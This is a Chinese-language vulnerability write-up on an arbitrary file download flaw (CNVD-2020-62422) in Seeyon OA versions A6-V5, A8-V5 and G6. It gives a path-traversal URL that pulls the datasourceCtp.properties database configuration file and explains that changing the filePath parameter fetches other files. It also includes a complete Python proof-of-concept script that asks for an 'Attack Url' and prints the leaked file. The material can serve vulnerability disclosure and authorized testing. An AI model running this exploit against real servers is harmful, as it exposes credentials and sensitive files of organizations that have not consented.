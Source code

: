 # 致远OA webmail.do任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 致远OA A6-V5
>
> 致远OA A8-V5
>
> 致远OA G6

## 漏洞复现

访问 url  http://xxx.xxx.xxx.xxx/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties

存在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![](image/zhiyuan-11.png)

更改参数 filePath 可下载其他文件

##  漏洞利用POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                          \033[0m')
    print('+  \033[34mVersion: 致远OA多个版本				                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "workflow" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/zhiyuan-12.png)

## Goby & POC

> [!NOTE]
>
> 致远OA webmail.do任意文件下载 CNVD-2020-62422

![](image/zhiyuan-13.png)